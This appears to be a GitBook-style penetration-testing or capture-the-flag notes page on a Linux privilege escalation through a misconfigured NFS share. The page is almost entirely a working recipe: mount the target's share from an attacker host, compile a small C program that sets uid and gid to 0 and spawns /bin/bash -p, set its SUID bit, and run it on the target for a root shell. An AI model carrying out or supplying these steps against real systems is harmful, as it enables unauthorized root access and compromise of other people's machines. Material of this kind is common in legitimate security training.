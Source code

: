***

* On the host machine, create a share folder with the target

{% code overflow="wrap" lineNumbers="true" %}
```bash
mkdir /tmp/Attack
sudo mount -o rw $targetIP:/home/ubuntu/sharedfolder /tmp/Attack
```
{% endcode %}

***

* Write simple script in C to ask for a shell

{% code title="nfs.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
    return 0;
}
```
{% endcode %}

***

* Compile the script and give it especial SUID Permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /tmp/Attack
</strong><strong>nano nfs.c    #Create the script as above
</strong>sudo gcc nfs.c -o nfs -w
<strong>sudo chmod u+s nfs
</strong>ls -l     #To check it has s permission on user
</code></pre>

***

* On the target machine run the script to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
./nfs
#This will return a root shell
```
{% endcode %}

***


